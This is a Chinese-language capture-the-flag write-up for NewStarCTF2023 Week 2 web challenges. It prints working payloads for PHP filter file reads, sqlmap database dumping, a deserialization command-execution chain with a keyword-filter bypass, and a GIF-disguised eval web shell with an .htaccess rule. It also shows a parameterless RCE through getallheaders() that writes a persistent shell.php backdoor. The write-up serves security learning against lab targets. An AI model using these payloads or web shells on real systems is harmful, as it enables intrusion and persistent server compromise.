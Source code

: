 # NewStarCTF2023-Week2-Web(AK)


# 游戏高手

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010143346285.png)

这里看到提示，要分数达到100000分才有答案。

那么就要找哪里记录的分数。F12查看资源，发现有一个`app_v2.js`的js文件很可疑，这里进去直接搜索100000，发现如下代码：

```javascript
//游戏结束
function gameover(){
    if(gameScore > 100000){
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "/api.php", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.onreadystatechange = function() {
        if (xhr.readyState === 4 && xhr.status === 200) {
            var response = JSON.parse(xhr.responseText);
            alert(response.message);
        }
        };
        var data = {
            score: gameScore,
        };
        xhr.send(JSON.stringify(data));
    }
	alert("成绩："+gameScore);
	gameScore=0;  
	curPhase =PHASE_READY;  
	hero = null;
	hero = new Hero();  	    
}
/**********游戏主引擎*********/
```

这里用json送了一个gameScore给/api后台，看来就是gameScore记录的分数。为了简单获取答案，我直接修改gameScore的初始值即可。

由于js已经加载，在F12中的控制台中修改gameScore的值：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010144007947.png)

确认后，开游戏发下分数已经改变，这时候送死就能拿到答案：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010144019480.png)

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010144044272.png)

# include 0。0

这题实际上很简单，但是之前的思路一直是错的。

要知道php://filter/这类伪协议在运行的时候本身就会进行一次urldecode，同时在浏览器中输入也会进行一次urldecode，也就是decode两次。

所以不需要更换其他方法，base64直接urlencode两次就可以拿到flag。

payload:

```url
php://filter/read=convert.%2562%2561%2573%2565%2536%2534-encode/resource=flag.php
```

 得到flag

```text
//PD9waHAgLy9mbGFnezgwOWYxOWJjLWY3MDYtNGYyYi1hMDEwLTg2MGE3YjU5MDBkNH0K
flag{809f19bc-f706-4f2b-a010-860a7b5900d4}
```

# ez_sql

这里做题的时候直接sqlmap一把梭就直接出结果了。

![image-20231010144803544](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010144803544.png)

```
python sqlmap.py -u "http://..." -dbs
```



![image-20231010145951978](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010145951978.png)

```
python sqlmap.py -u "http://..." -D ctf --tables
```



![image-20231010150019679](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010150019679.png)

```
python sqlmap.py -u "http://..." -D ctf -T here_is_flag --dump
```



![image-20231010150052730](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010150052730.png)

# Unserialize？

![image-20231010150250048](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010150250048.png)

看下对象，发现是cmd私有成员的RCE（在对象摧毁时发生）。

注意两点即可：

+ 由于是private对象，需要encode后输出；
+ php里面字符串不能包含$，考虑其他绕过方式

其他没啥好注意的，基础反序列化题目。

payload：

```php
<?php
class evil {
    private $cmd = "c''at /th1s_1s_fffflllll4444aaaggggg";

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

$a = new evil;
echo urlencode(serialize($a));
?>
```

输出是：

```
O%3A4%3A%22evil%22%3A1%3A%7Bs%3A9%3A%22%00evil%00cmd%22%3Bs%3A36%3A%22c%27%27at+%2Fth1s_1s_fffflllll4444aaaggggg%22%3B%7D
```

传入unser即可拿到flag

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010150651628.png)

# Upload again

这题是有点恶心的，直到我想到上传.htaccess

这题的验证全在后端，经过多次实验主要有两个：

+ 上传**之后**的后缀名有检测。这里常见的phps,php4,php5,php3,phtml,PhP等等可执行的文件都试过了没有用
+ 对上传之后的文件内容有检查：目前发现的就是检查是否含有php或者<?php

第二点好解决，使用下面内容然后改为.gif就可以绕过：

```html
GIF89a<script language="pHp">@eval($_POST['shell']) </script>
```

对于第一点，经我测试只能使用.htaccess改变php解析方式才行：

```
AddType application/x-httpd-php .gif
```

将上述文件保存为.htaccess后上传，将.gif当错php脚本来解析。

这样就可以成功getshell！

# R!!C!!E!!

看题就知道是RCE（废话）

进网页发现要扫描：

![image-20231010151331264](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010151331264.png)

扫描过程就不说了，记得一定要j加-s 1.5不然buuctf扫不了。结果就是git泄露。

这里用githack直接下载文件，发现：

![image-20231010151425741](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010151425741.png)

首先是bo0g1pop.php文件，这个是我们这题的主角：

```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```

看到`/[^\W]+\((?R)?\)/`就明白是无参RCE。但是下面的闲置条件未免也太多了。

我们再看下start.sh，发现flag在根目录，名字就叫flag。

![image-20231010151602898](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010151602898.png)

回到RCE，我们发现scandir没法用。但是我们迫切需要一个数组至少能让我储存路径（/flag）。

这里想了很久。最后发现getallheaders()，它可以返回一个数组，就是所有的请求头的内容。

这里，我们加入一个头zzz（这样可以排在最后，这是个铺垫），然后直接print_r试一试（var_dump也用不了）：

![image-20231010152016731](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010152016731.png)

成功获取！接下来就是和scandir一样的思路。先array_reverse()直接放到数组的第一个，然后用pos()获取内容！

![image-20231010152141256](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010152141256.png)

接下来加上eval就是完全没限制的rce了。由于知道flag的位置了，这里简单点直接`system('cat /flag');`即可拿到答案：

![image-20231010152301992](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010152301992.png)

payload：

```
bo0g1pop.php?star=eval(pos(array_reverse(getallheaders())));
```

```header
zzz: system('cat /flag');
```

当然由于没有限制，这里直接getshell也是可以的：

```header
zzz: fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd]);?>');
```

![image-20231010152521752](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010152521752.png)

![image-20231010152546969](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231010152546969.png)

Week2-Web完结！


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/10/newstarctf2023-week2-web/  


